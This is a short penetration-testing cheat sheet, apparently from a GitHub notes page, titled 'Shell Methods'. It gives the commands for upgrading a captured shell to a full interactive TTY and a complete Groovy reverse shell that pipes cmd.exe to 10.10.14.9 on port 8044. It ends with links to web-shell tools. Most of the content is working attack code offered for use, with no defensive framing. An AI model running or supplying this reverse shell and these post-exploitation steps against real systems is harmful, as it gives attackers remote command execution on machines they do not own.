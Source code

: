 # Shell Methods

## TTY Upgrade
### Magic
1. `python -c 'import pty; pty.spawn("/bin/bash")'`
    - alternative: `script -q /dev/null /bin/bash`
2. `Ctrl-Z` # background shell
3. `echo $TERM`
4. `stty -a` # grab rows and columns
5. `stty raw -echo`
6. `fg` # foreground
7. `reset`
8. `export SHELL=bash`
9. `export TERM=xterm-256color`
10. `stty rows $rows columns $cols`

## FwdSh3ll

## Groovy Script Reverse Shell

```
* `String host="10.10.14.9";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket
s=new Socket(host,port);InputStream
pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream
po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try
{p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();`
```

Source: https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76

## Tools
- https://github.com/SecurityRiskAdvisors/cmd.jsp
- https://github.com/gellin/bantam
- https://github.com/antonioCoco/SharPyShell